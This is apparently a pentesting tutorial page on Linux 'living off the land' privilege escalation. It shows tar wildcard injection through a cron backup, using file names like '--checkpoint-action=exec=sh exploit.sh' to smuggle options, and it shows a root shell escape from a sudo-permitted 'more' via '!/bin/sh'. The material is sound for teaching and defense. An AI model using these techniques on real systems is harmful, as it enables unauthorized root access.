 # 🛠️ Living off the land

## Theory

Living of the Land is a well known privilege escalation technique, where an attacker will leverage binaries found on the attacked machine to perform a privilege escalation. Indeed, many UNIX programs have options that can be exploited to open a shell. Therefore if we can start the program we exploit as another user, we might be able to open a shell as this user !&#x20;

Most of the payloads to do this on UNIX programs can be found on [gtfobins.github.io](https://gtfobins.github.io).

## Practice

Here are two case study to better understand the principle of these privilege escalations :

### Case study 1 : Privesc using tar and a cronjob

Imagine a scenario where a script backups a directory (that we can control) on the server each hour using `tar` like this :

```
#!/bin/bash

mkdir -p /backups/
cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
```

Notice this interesting pattern `tar czvf file.tar.gz *` in the script. This is a security vulnerability because of how UNIX shells handles wildcards. Let's see an example with the `ls` command :

```
$ ls -lha
total 84K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    0 avril 27 22:31 file3
$ ls *
file1  file2  file3

$ echo '' > '-lha'
$ ls -lha 
total 88K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    0 avril 27 22:31 file3
-rw-rw-r--  1 user user    1 avril 27 22:32 -lha
$ ls *
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
```

The shell wildcards are resolved by the shell, and not by the command. This means filenames can be treated as options if they are starting with a `-`. In our previous example, we added a file called `-lha` into the folder. When we type `ls *`, the shell replaces the `*` by all matching files in the current directory, and therefore our command becomes `ls file1 file2 file3 -lha`. After the wildcard resolution, the shell executes the command with our options.

Now if we get back to our script creating a backup of a directory each our with `tar *`, we see that tar have legitimate options allowing execution of a program. You can find them here :

* [https://gtfobins.github.io/gtfobins/tar/#shell](https://gtfobins.github.io/gtfobins/tar/#shell)

To use these options in our exploit, we jut need to create these two files in our directory, as well as the `exploit.sh` file, containing the command we want to run when we trigger the execution :

```
echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=exec=sh exploit.sh'

$ ls -lha 
total 88K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    1 avril 27 22:31 '--checkpoint=1'
-rw-rw-r--  1 user user    1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
-rwxrwxrwx  1 user user  784 avril 27 22:32 exploit.sh
```

We are now ready ! We just need to wait until the directory is backup again, and it will trigger our payload and execute `exploit.sh` file!

### Case study 2 : Privesc using more and sudo

Let's take an example, with this `sudo` configuration :

```
$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on PC1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on PC1:
    (ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log
```

In this case `user` can run the `more` command, but only to read a specific log file `/var/log/apache2/access.log` as `root` without password (`NOPASSWD` flag) :&#x20;

```
sudo -u root /usr/bin/more /var/log/apache2/access.log
```

You can assume this would be safe right ? Unfortunately, it's not. The `more` command has various useful options, one of them is `!`. When you're in `more` and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type `!/bin/sh` in `more`, you will open a shell as the owner of the parent `more` process !

```
$ sudo -u root /usr/bin/more /var/log/apache2/access.log
File content line 1
File content line 2
...
File content line n
------------------------
!/bin/sh
# 
uid=0(root) gid=0(root) groups=0(root)
# 
```
